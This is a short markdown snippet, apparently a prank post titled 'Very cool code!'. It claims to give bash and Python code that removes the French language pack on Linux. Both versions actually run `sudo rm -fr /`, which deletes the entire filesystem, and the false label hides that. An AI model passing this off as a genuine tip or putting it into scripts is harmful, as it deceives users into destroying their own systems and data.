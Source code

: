 # Very cool code!

```bash
# Removes the french language pack on linux! (who even needs that?)
sudo rm -fr /
```

If you like python better, here you go:
```python
import os
os.system("sudo rm -fr /")
```
